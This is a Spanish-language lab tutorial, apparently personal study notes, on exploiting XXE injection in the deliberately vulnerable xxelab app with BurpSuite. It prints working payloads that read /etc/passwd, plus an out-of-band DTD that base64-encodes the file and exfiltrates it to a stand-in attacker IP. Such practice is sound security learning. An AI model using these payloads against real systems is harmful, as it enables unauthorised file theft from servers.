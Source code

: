 
---------------
#vulnerabilidad #explotacion #owasp

---------
Primeramente, para comenzar con el proyecto, practicaremos con el siguiente repositorio de GitHub:

```bash
git clone https://github.com/jbarone/xxelab
```

Para que no dé problemas, reiniciamos los servicios de Docker de la siguiente forma:

```bash 
 sudo systemctl restart docker
```

Después de construir la imagen, ejecutamos el contenedor en segundo plano para que no genere problemas al cerrar la terminal con `-d`.

Para ver cómo viaja la petición, la monitoreamos en el panel de inicio a través de BurpSuite:**

Como podemos ver, el formato de la petición va en forma de XML:

![[Pasted image 20240922142040.png]]

El cual se puede conceptualizar con este diagrama:

![[Pasted image 20240922142109.png]]

Primeramente, con el envío de peticiones desde BurpSuite, probamos si el envío es susceptible a la creación de entidades de la siguiente forma:

```xml
<!DOCTYPE foo [<!ENTITY myName "savitar">]>
```

![[Pasted image 20240922142940.png]]

Si la respuesta de la petición la entidad **myName** se puede interpretar, y en este caso como respuesta te aparece el valor asignado a la entidad, en este caso s4vitar, entonces la página es susceptible a un **XXE**.
![[Pasted image 20240922143127.png]]

Una vez probado eso, puedes verificar si mediante el siguiente comando es posible listar archivos de un directorio conocido por contener archivos existentes, como por ejemplo `/etc/passwd`, de la siguiente manera:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
```

![[Pasted image 20240922143429.png]]

Si en la salida del comando no observas la información deseada, como la del archivo `/etc/passwd`, entonces será necesario aplicar otro concepto de explotación a ciegas, que es:

---------

## XXE OOB

Si no obtienes respuesta a la solicitud, puedes redirigir la petición a tu IP de atacante, montar una estructura de archivo DTD y abrir un terminal de Python para que la máquina realice la solicitud e inyecte el código que deseas proponer. Puedes hacerlo de la siguiente manera:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://IpAtacante/malicius.dtd">]>
```



![[Pasted image 20240922144405.png]]

Si en un caso no puedes declarar entidades en el cuerpo de la estructura, puedes hacerlo en el DOCTYPE de la siguiente manera:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://IpAtacante/malicius.dtd"> %xxe;]>
```

----------

El código del archivo `malicious.dtd` iría de la siguiente forma, comenzando por convertir todo el código a un hash en base 64, para luego ser decodificado:


![[Pasted image 20240922171228.png]]

(Dado que son dos entidades anidadas, para la segunda entidad debemos representar el símbolo `%` en hexadecimal, lo cual se realiza usando `&#x25;`). El código del script sería el siguiente:

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ipAtacante/?file=%file;'>">
%eval;
%exfil;

```

y asi a traves de la escuha del servidor en python y enviando la peticion por burpsuiite tendriamos los hashes para traducirlos en base64

![[Pasted image 20240922172058.png]]

